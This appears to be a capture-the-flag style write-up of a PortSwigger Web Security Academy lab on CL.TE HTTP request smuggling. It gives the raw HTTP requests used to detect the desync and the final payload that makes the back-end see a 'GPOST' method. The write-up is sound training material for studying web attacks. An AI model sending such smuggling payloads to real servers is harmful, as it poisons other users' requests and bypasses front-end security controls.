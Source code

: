 # HTTP request smuggling, basic CL.TE vulnerability
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. \
The front-end server rejects requests that aren't using the GET or POST method.\
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

# Solution
## Analysis
### Determinig what the front-end is using
If front-end uses `Content-Length` header it should wait for all the bytes defined in `Content-Length` header. In the example below, the response from the server (time-out) indicates that front-end must be using `Content-Length` header and back-end must be using `Transfer-Encoding` header. Last byte (`X`) was striped by front-end. Then the back-end tried to wait for the termination of the chunked request causing time-out which indicates that it is using `Transfer-Encoding` header. 
```
POST / HTTP/1.1
Host: 0ae4008c038733a4818bfc6b008000fb.web-security-academy.net
Cookie: session=QjDwerZivMfuqUNKOCyKs5bDPlaUt4Vx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Transfer-Encoding: chunked

4
test
X
```



|![](Images/image-9.png)|
|:--:| 
| *Time-out - Front-end is using Content Length header* |
| *Time-out - Back-end is using Transfer Encoding header* |


### Conmfirming that the back-end is using Transfer Encoding
In this case if back-end uses `Transfer-Encoding` header it should treat everything after `0` as new request.
```
POST / HTTP/1.1
Host: 0ae4008c038733a4818bfc6b008000fb.web-security-academy.net
Cookie: session=QjDwerZivMfuqUNKOCyKs5bDPlaUt4Vx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

|![](Images/image-10.png)|
|:--:| 
| *Unrecognized method XPOST - Back-end is using Transfer Encoding header* |

## Exploitation
Payload:
```
POST / HTTP/1.1
Host: 0a5700f504b0a82a838c425c00b800fe.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

The `Content-Length: 6` value:
```
0\r\n       +3
\r\n        +2
G           +1
```

|![](Images/image.png)|
|:--:| 
| *First request - poisoning* |
|![](Images/image-1.png)|
| *Second request - request was smuggled* |
|![](Images/image-2.png)|
| *Second request with visible signs "\r" and "\n"* |